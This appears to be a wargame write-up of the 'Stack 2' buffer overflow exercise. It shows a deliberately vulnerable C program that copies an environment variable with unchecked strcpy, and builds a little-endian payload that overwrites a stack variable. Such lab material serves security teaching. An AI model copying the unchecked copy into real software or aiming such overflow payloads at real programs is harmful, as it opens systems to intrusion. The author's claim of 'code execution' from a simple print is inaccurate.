


### Stack 2:
-------------------------------------
#### Source Code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
#### Exploitation:
By reading the code, we can figure out that an `environment variable` has to be set with the name being `GREENIE`. Now, conjuring some of our intense high level linux knowledge and exporting the variable as some random name to check whether we have perms as this user or not. But, before doing that, let us run the program atleast once.


Now we know that we need to export an environment variable. So running the following command will allow us to export the env as well as verify if it has been added. `export GREENIE="echo TEST"; $GREENIE; env | grep GREENIE`.



We have permissions to add environment variables. Let's craft a payload that will actually allow us to overflow the buffer. Let us first check if we can execute python code. Let's use the following payload : `export GREENIE=$(python -c 'print "THEFLASH2K"'); $GREENIE; env | grep GREENIE`



Sweet, we have code execution. We will have to craft our payload by converting `0x0d0a0d0a` using the same method we used in `Stack1`. So, we get the following output:


Ah, weird, we can't see anything. Let's try and get the output using something else, I'm using Sublime Text.


Oh, So, we have `'\n' (Newline)` and `'\r' (Carriage Return)` respectively. So, we cannot use our old methods of crafting a payload for this i.e. `python -c "print 'A'*64 + '\n\r\n\r'"`. So, we'll use another technique. The trick is to write the data in Little Endian hex format. The way to write that is: `'\x0d'`. But, the main key point is to start writing it by beginning from the right i.e. the first value will be `'\x0a'`. So, the payload becomes: `\x0a\x0d\x0a\x0d`. Let's add this to our final payload. So, the final payload becomes: `export GREENIE=$(python -c "print 'A'*64 +'\x0a\x0d\x0a\x0d'")`
Now, simply, executing the program will tell us whether our payload worked or not.


Voila, our payload works.
- Thanks for reading. :)
